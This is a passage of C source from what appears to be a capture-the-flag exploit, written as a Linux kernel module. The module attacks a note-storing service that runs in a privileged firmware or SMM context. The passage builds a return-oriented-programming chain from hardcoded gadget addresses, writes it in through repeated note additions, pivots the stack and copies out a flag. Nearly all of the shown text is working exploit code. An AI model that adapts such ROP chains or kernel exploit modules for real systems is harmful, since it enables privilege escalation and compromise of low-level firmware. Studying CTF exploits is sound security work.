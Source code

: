 ```c
    }

    if (smcc == 0) {
        printk(KERN_INFO "unable to find smcc\n");
        return -1;
    }

    printk(KERN_INFO "smmc addr: %llx \n", smcc);

    uint64_t module_base = 0x0007FF9C000;
    uint64_t flag_addr = 0x7ff9ebbc;
    uint64_t copy_mem_addr = 0x7ff9dd26;
    uint64_t nop = module_base + 0x1e6e;
    uint64_t pop_r12_r13_ret = module_base + 0x1d43;
    uint64_t pop_rbx_ret = module_base + 0x10e1;
    uint64_t pop_rsp_r13_ret = module_base + 0x1d44;

    uint64_t chain[] = {
        pop_r12_r13_ret,
        payload_loc,
        flag_addr,
        pop_rbx_ret,
        0x40,
        copy_mem_addr,
        0x41,
        0x41,
        0x41,
        0x41,
        pop_rsp_r13_ret,
        0x7ffb6c90, // rsp of an intact stackframe
    };

    char note[0x10];
    uint64_t *p_note = (uint64_t*)note;

    int idx = 0x0;
    int i;
    for (i = 0; i < 0x1; i++) {
        p_note[0] = nop;
        p_note[1] = nop;

        add_note(idx++, note);
    }

    for (i = 0; i < sizeof(chain) / sizeof(uint64_t); i+= 2) {
        p_note[0] = chain[i];
        p_note[1] = chain[i + 1];

        add_note(idx++, note);
    }

    uint64_t rsp = 0x7ffb6ab0;
    dump_notes(rsp);

    char flag[0x40];
    memcpy_fromio(&flag, io_addr, sizeof(flag));
    printk(KERN_INFO "Flag: %s \n", flag);

    return 0;
}

static int __init hello_init(void) {
 printk(KERN_INFO "Exploit module loaded\n");
```